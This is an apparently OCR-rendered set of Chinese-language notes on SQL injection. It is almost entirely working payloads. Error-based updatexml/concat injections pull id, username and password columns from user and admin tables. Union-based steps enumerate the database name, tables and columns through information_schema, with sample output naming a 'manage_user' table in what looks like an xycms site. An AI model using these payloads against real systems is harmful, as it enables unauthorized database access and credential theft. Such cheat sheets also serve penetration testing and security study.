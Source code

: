 

报错数据库中的数据 

```sql
select updatexml(1,concat(0x7e,(select concat(**id**,',',**username**,',',**password**) from **login.user** limit 0,1)),1); 
```

'or updatexml(1,substr(concat(0x7e,(select concat(**username**,',',**password**) from **abc.admin** limit 1,1)),4,32),1);# 

查看从0开始第1个数据 

 

报出多个数据 

```sql
select updatexml(1,concat(0x7e,(select group_concat(**id,',',username,',',password**) from **login.user** limit 0,2)),1); 
```

'or updatexml(1,concat(0x7e,(select group_concat(**id,',',username,',',password**) from **login.user** limit 0,2)),1);# 

用group_concat输出多个数据 

## 联合注入

?id=1 order by **n** 

 

?id=-1 union select 1,2,3,4,5,6,7, 

database() 

,9,10 

 

xycms 

 

?id=-1 union select 1,2,3,4,5,6,7, 

group_concat(table_name) 

,9,10 from information_schema.tables where table_schema=database() 

 

common,config,down_fl,gbook,manage_user,menu,news,news_fl,pro_fl,xy_case,xy_download,xy_pro,xy_zp 

 

?id=-1 union select 1,2,3,4,5,6,7, 

group_concat(column_name) 

,9,10 from information_schema.columns where table_schema=database() and table_name='**manage_user**' 

 
